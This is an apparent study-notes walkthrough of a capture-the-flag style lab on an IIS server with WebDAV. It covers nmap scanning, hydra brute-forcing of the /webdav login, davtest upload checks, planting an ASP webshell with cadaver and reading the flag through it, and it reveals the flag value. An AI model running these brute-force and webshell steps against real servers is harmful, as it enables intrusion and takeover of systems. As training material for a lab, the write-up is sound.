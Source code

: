 # 🔬IIS - WebDAV

## Lab 1

>  🔬 [Windows: IIS Server DAVTest](https://attackdefense.com/challengedetails?cid=2317)
>
>  - Target IP: `10.3.26.115`
>  - IIS exploitation
>  - Credentials provided: `bob`:`password_123321`

```bash
ping 10.3.26.115

nmap -sV -sC 10.3.26.115
```

```bash
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND LOCK UNLOCK PROPPATCH MKCOL PUT DELETE MOVE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to /Default.aspx
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, POST, PROPFIND, PROPPATCH, MKCOL, PUT, DELETE, COPY, MOVE, LOCK, UNLOCK
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, POST, COPY, PROPFIND, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/10.0
|_  Server Date: Fri, 10 Mar 2023 12:34:28 GMT
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3306/tcp open  mysql         MySQL (unauthorized)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: DOTNETGOAT
|   NetBIOS_Domain_Name: DOTNETGOAT
|   NetBIOS_Computer_Name: DOTNETGOAT
|   DNS_Domain_Name: DotNetGoat
|   DNS_Computer_Name: DotNetGoat
|   Product_Version: 10.0.17763
|_  System_Time: 2023-03-10T12:34:28+00:00
| ssl-cert: Subject: commonName=DotNetGoat
| Not valid before: 2023-03-09T12:25:30
|_Not valid after:  2023-09-08T12:25:30
|_ssl-date: 2023-03-10T12:34:36+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-03-10T12:34:33
|_  start_date: N/A
```

![](.gitbook/assets/image-20230310133804412.png)

- A `http-enum` script scan can also be done, focusing only on port `80`:

```bash
nmap -p80 --script http-enum -sV 10.3.26.115
```

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-enum: 
|_  /webdav/: Potentially interesting folder (401 Unauthorized)
|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

# 401 Unauthorized - authentication is enabled
```

![](.gitbook/assets/image-20230310133856907.png)

![browser check](.gitbook/assets/image-20230310133943639.png)

### [hydra](https://www.kali.org/tools/hydra/)

> **`hydra`** - a parallelized fast and flexible login cracker which supports numerous protocols to attack.

```bash
hydra -L <USERNAME_LIST> -P <PASSWORD_LIST> ssh
```

> **❗Pay attention with brute-force attacks as they can cause a DoS (Denial of Service)❗**

- Try `hydra` to brute force WebDAV in this case

```bash
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.3.26.115 http-get /webdav/
```

![](.gitbook/assets/image-20230310134755008.png)

- Use the lab provided credentials instead, first in the web browser then with `davtest` tool

![](.gitbook/assets/image-20230310134917364.png)

### [davtest](https://www.kali.org/tools/davtest)

- It sends exploit files to the WebDAV server and automatically creates the directory and uploads different format types of files, then it tries to execute uploaded files and gives an output of successfully executed files.

```bash
davtest -url http://10.3.26.115/webdav
```

```bash
Testing DAV connection
OPEN		FAIL:	http://10.3.26.115/webdav	Unauthorized. Basic realm="10.3.26.115"
```

- Use the provided credentials with `davtest`

```bash
davtest -auth bob:password_123321 -url http://10.3.26.115/webdav
```

```bash
/usr/bin/davtest Summary:
Created: http://10.3.26.115/webdav/DavTestDir_a7XjUR
PUT File: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.txt
PUT File: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.cfm
PUT File: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.cgi
PUT File: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.aspx
PUT File: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.asp
PUT File: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.html
PUT File: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.php
PUT File: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.jsp
PUT File: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.jhtml
PUT File: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.shtml
PUT File: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.pl
Executes: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.txt
Executes: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.asp
Executes: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.html
```

![davtest result](.gitbook/assets/image-20230310135446655.png)

> 📌 Summary:
>
> - All important file types can be uploaded to the `/webdav` directory
> - `.txt`, `.asp`, `.html` files can be executed

### [cadaver](https://www.kali.org/tools/cadaver/)

- Use `cadaver` to upload an `.asp` payload to the `/webdav` directory

```bash
cadaver http://10.3.26.115/webdav
```

```bash
dav:/webdav/> ls
# commands can be used on the web server dav directory
```

![dav:/webdav/>](.gitbook/assets/image-20230310140157782.png)

```bash
dav:/webdav/> put /usr/share/webshells/asp/webshell.asp 
```

```bash
Uploading /usr/share/webshells/asp/webshell.asp to `/webdav/webshell.asp':
Progress: [=============================>] 100.0% of 1362 bytes succeeded.

# webshell payload uploaded successfully
```

![](.gitbook/assets/image-20230310140533335.png)

- Access the backdoor using the browser - `http://10.3.26.115/webdav/webshell.asp`
- Windows commands can be provided in the box

![](.gitbook/assets/image-20230310140749091.png)

- Run `whoami`, `ipconfig` or other commands to find the flag

![](.gitbook/assets/image-20230310140924518.png)

- `dir C:\` command - `http://10.3.26.115/webdav/webshell.asp?cmd=dir+C%3A%5C`
- `type C:\flag.txt` command - `http://10.3.26.115/webdav/webshell.asp?cmd=type+C%3A%5Cflag.txt`

<details>
<summary>Reveal Flag: 🚩</summary>



`0cc175b9c0f1b6a831c399e269772661`

![](.gitbook/assets/image-20230310141308173.png)

</details>

------

## Lab2
